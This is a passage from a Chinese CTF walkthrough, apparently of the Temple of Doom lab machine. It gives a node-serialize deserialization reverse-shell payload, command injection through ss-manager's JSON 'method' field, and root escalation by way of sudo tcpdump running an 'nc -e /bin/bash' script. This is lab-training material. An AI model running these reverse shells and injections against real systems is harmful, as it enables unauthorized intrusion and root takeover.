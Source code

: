 获得用户名`nodeadmin`

设置一个反弹shell：

```bash
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1',(error,stdout,stderr)=>{console.log(stdout)}); }()"}
# kali
nc -lvnp LHOST
```

## 提权

然后师傅们看到`fireman`用户：

```bash
ps -ef | grep fireman
```

发现此用户启动了`ss-manager`进程，也可以使用一下命令查看与`fireman`有关的文件:

```bash
find / -type f -name "*" |xargs grep -ri "fireman" 2>/dev/null
ps -aux | grep ss-manager
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402251742661.png" alt="image-20240225173111186" style="zoom:50%;" />

漏洞利用需要开启`8839`端口，查看一下是否开启了这个端口：

```bash
netstat -a | grep 8839
nc -u 127.0.0.1 8839
# 配置JSON，执行命令，在tmp创建evil文件
add: {"server_port":8003, "password":"test", "method":"||touch /tmp/evil||"}
# 使用bash，获得反弹shell
add: {"server_port":8003, "password":"test", "method":"||bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1|"}

# kali
nc -lvp $LPORT
```

此时到root下但是没有权限，使用`sudo -l`查看一下相关命令

检查发现`fireman`具备`sudo`权限：

```bash
# 使用tcpdump，可以用于远程代码执行
echo "nc  -e /bin/bash $LHOST $LPORT "> shell.sh
chmod +x shell.sh
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root
```

将nc反弹shell写入sh文件，赋执行权限，通过tcpdump执行反弹shell，获得root权限

最后获得完整的tty,获得flag：

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
cd /root
cat flag.txt
```

## 参考blog

https://blog.csdn.net/qq_34801745/article/details/104061415

https://blog.csdn.net/elephantxiang/article/details/121593344

https://www.freebuf.com/articles/web/260403.html

https://www.c0dedead.io/temple-of-doom-1-walkthrough/
